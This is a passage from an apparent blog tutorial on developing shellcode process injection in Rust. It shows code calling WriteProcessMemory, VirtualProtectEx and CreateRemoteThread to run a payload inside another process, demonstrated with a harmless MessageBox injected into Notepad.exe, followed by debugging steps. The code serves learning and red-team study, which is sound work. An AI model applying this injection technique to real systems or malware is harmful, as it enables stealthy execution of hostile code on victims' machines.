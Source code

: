 After that, we have to write our payload in the new allocated memory. To do that we use **WriteProcessMemory**.

```rust
 let result_writeprocessmemory =  WriteProcessMemory(handle_process,remotememory_ptr,payload_ptr,payload_len,None);
```

Using **VirtualProtectEx**, it is possible to change the memory protection to **PAGE_EXECUTE_READ** to make the payload executable.

```rust
match result_writeprocessmemory{
    Ok(()) => {
       let result_virtualprotectex =  VirtualProtectEx(handle_process,remotememory_ptr,payload_len,PAGE_EXECUTE_READ,&mut old_protect);
                           
        match result_virtualprotectex{
```

At this point we can execute our payload using. The **transmute** function allows us to convert the pointer to our payload into a pointer to a function to be executed by the new created Thread as required by the WinAPI.

```rust
match result_virtualprotectex{
    Ok(()) => {
        let result_createremotethread= CreateRemoteThread(handle_process,None,0,transmute(remotememory_ptr),None,0,None);
        match result_createremotethread{
            Ok(_handle_tread) => {
                println!("Threat Created")   
            }
            Err(error) => {
                println!("CreateRemoteThread Error: {}",error)
            }
    } 
```

To compile the program into a 32bit binary we can use the **target** flag specifying the i686 architecture.

{{< image src="img/2023-10-27-rustware-part-1-shellcode-process-injection-development/img7.png" caption="Figure 7 - Compile Program for 32bit architecture" wrapper="text-center">}}

Running the binary we successfully inject our MessageBox into Notepad.exe.

{{< image src="img/2023-10-27-rustware-part-1-shellcode-process-injection-development/img8.png" caption="Figure 8 - MessageBox Process Injection in Notepad.exe" wrapper="text-center">}}

## Debugging

Using Process Hacker and x32dbg we can debug our binary to understand how it works under the hood. In x32dbg we can change the command line to specify the target process PID and set the breakpoints on the WinAPIs that our binary is going to use.

{{< image src="img/2023-10-27-rustware-part-1-shellcode-process-injection-development/img9.png" caption="Figure 9 - Change Command Line" wrapper="text-center">}}
